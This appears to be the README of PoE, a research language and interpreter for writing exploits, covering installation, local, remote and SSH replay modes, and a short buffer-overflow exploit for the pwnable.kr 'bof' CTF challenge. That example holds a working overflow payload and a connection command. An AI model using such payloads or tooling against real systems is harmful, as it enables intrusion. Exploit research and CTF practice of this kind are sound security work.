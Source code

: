 PoE
===

PoE (Proof-of-Exploit) is a language designed specifically for writing an
exploit. It provides intuitive and concise syntax, which makes exploit
development easy and fun. For more details, please refer to our paper:
+ [Jung Hyun Kim, Steve Gustaman, and Sang Kil Cha. (2024), PoE: A Domain-Specific Language for Exploitation. In Proceedings of the Silicon Valley Cybersecurity Conference.](https://softsec.kaist.ac.kr/~sangkilc/papers/kim-svcc24.pdf)

Currently, PoE runs on an interpreter that we call `PoE.Replayer`, which is a
[.NET CLI
tool](https://docs.microsoft.com/en-us/dotnet/core/tools/global-tools). See the
[tutorial](tutorial) to learn more about PoE and `PoE.Replayer`.

## Features

+ Static typing
+ Simple and intuitive grammar for writing readable exploits
+ Language-level integration of SMT solving and inline assembly capability
+ Bit-vector manipulation
+ Various built-in functions
+ Automated `stdbuf` patching

## Installation

PoE supports major OSs including Windows, MacOS, and Linux distributions. And
you can easily install the released version of PoE via .NET.

### Prerequisite

+ [.NET 9+](https://dotnet.microsoft.com/en-us/download)

### Instruction

First, make sure you have installed .NET 9+ on your machine so that you can run
the command `dotnet` from your terminal.

Next, just run the following command to install `PoE.Replayer`:
```
dotnet tool install --global PoE.Replayer
```

After the installation, you should be able to run the command `poe` on your
machine. If so, you are all set.

### From source code

Instead of running the released version of PoE, you can also clone the latest
source code of PoE and run it directly:
```
git clone https://github.com/B2R2-org/PoE
cd PoE
dotnet run --project src/PoE.Replayer
```

## How to use

Basically, PoE supports two modes to interact with the target system:
+ Local mode: It runs the local binary to communicate with it.
+ Remote mode: It communicates with the remote service running on the specific
IP address and port number.

You can use either **Local mode** or **Remote mode** via the following commands:

+ Local mode: `poe stdin [replay options] <PoE> <bin path> [args]`
+ Remote mode: `poe net [replay options] <PoE> <ip> <port>`

Also, we provide another way to connect to the remote service via **SSH mode**,
where you can specify the username and password to log in to the remote host via
SSH:

+ SSH mode: `poe ssh [replay options] <PoE> <ip> <port> <user> <password>`

Running the PoE replayer without any parameters will show the other usages of
PoE.

### Example usage

Let us bring here an example CTF problem named `bof` from
[pwnable.kr](pwnable.kr). This problem has a buffer overflow vulnerability, and
you can easily write its exploit via PoE:

```
act exploit():
    bv payload = "A"x(0x2c + 0x8) . 0xcafebabe:u32 . "\n"
    write("nc 0 9000\n")
    write(payload)
    write("cat flag\n")
    return read(-1)

submit:
    return exploit()
```

And then, you can run the following command to run the exploit on the remote
service:
```
poe ssh bof.poe pwnable.kr 9000 bof guest
```
Note that you can also use Remote mode (`net`) when you connect to the remote
service using the other ways (e.g. via `nc`).

For more details, please see the [tutorial](tutorial).